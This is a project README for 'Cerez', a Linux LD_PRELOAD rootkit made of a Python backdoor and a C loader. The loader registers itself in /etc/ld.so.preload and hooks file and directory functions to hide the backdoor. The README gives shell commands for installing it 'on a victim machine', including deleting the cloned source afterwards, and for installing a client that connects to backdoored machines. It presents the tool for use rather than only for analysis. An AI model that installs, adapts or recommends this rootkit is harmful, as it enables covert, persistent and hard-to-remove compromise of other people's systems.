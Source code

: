 <h1 align="center">
  <img src="assets/banner.png"/>  
  <br>
  Cerez 😈 A simple LD_PRELOAD rootkit
</h1>

Cerez is a LD_PRELOAD rootkit, it consists of two parts, a backdoor 
(written in python) and a loader (written in c). Loader is a SO binary
that gets installed into `/lib` and writes its path into `/etc/ld.so.preload`,
this way every binary on the system preloads it.
By overwriting system functions like `fopen`, `readdir`, `access` and
`unlinkat` it makes it nearly impossible to remove/detect the backdoor.
I also wrote a simple client that you can use to connect the backdoor.

## Installing the rootkit
To install the rootkit on a victim machine:
```
git clone https://github.com/ngn13/cerez.git
cd cerez
chmod +x install.sh
# before installing see the backdoor.py
# and change the backdoor password
./install.sh
cd ..
rm -rf cerez
```

## Installing the client
To install the client that you can use to connect a
backdoored machine:
```
git clone https://github.com/ngn13/cerez.git
cd cerez
chmod +x client.py
./client.py
```

## Resources
To learn more about LD_PRELOAD rootkits, I highly recommend you read [this
article](https://compilepeace.medium.com/memory-malware-part-0x2-writing-userland-rootkits-via-ld-preload-30121c8343d5)
I also left some comments in the [loader.c](loader.c) so you can go ahead and read it.
You can also create an issue/PR if you are interested,
